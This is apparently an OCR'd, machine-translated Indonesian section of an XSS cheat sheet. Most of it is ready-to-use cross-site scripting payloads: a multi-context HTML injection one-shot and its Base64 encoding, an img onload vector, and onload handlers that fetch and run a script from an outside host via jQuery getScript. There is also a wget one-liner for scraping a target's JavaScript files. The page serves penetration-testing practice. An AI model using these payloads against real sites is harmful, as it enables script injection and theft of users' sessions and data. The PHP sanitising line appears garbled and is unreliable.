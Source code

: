 \# miscellaneous

> XSS Online Test Page

Gunakan untuk berlatih vektor dan muatan XSS. Periksa kode sumber untuk titik injeksi.

      [https://brutelogic.com.br/xss.php](https://brutelogic.com.br/xss.php "https://brutelogic.com.br/xss.php")

> Multi-Case HTML Injection

Gunakan sebagai satu-shot untuk mendapatkan tingkat XSS sukses yang lebih tinggi. Ini berfungsi dalam semua kasus HTML

konteks (lihat bagian Dasar-dasar), termasuk JS dengan injeksi tag. Perhatikan spasi sebagai

failover untuk sanitasi / pelarian sederhana yang dilakukan oleh aplikasi.

       </Script/"'--><Body /Autofocus /OnFocus = confirm\`1\` <!-->

> Multi-Case HTML Injection - Base64

> Gunakan sebagai satu-shot untuk mendapatkan tingkat XSS sukses lebih tinggi di bidang input Base64. Itu bekerja di semua kasus konteks HTML (lihat bagian Dasar), termasuk JS yang berisi injeksi tag

       PC9TY3JpcHQvIictLT48Qm9keSAvQXV0b2ZvY3VzIC9PbkZvY3VzID0gY29uZmlybWAxYCA8IS0tPg==

> JavaScript Libraries Scraper

Gunakan untuk mendapatkan semua tautan absolut dan relatif ke perpustakaan yang ditemukan dalam kode sumber

DOMAIN / HALAMAN. Ini perintah satu baris dan "$" adalah terminal prompt.

       $ wget -nd -rH -A js --spider DOMAIN/PAGE 2>&1 | awk '/^--.*\\.js?/{print $3}'

> PHP Sanitizing for XSS

Gunakan untuk mencegah XSS dalam setiap konteks selama input tidak mencerminkan non-delimited

string, di tengah-tengah backticks atau fungsi lain seperti eval (semua yang ada dalam konteks JS). Itu

tidak mencegah terhadap XSS berbasis DOM, hanya kasus XSS berbasis sumber.

       $input = preg_replace("/:|\\\\\\/", "", htmlentities($input, ENT_QUOTES))

> JavaScript Execution Delay

Gunakan saat pustaka javascript atau sumber daya lain yang diperlukan untuk injeksi tidak dimuat sepenuhnya

dalam pelaksanaan payload. Contoh panggilan eksternal berbasis JQuery.

       onload=function(){$.getScript('//brutelogic.com.br/2.js')}
    
       onload=x=>$.getScript('//brutelogic.com.br/2.js')

> Valid Source for Image Tags

Gunakan saat diperlukan atribut src yang valid untuk memicu peristiwa yang dimuat alih-alih satu kesalahan.

       <img src=data:image/gif;base64,R0lGODlhAQABAAD/ACwAAAAAAQABAAACADs=onload=alert(1)>
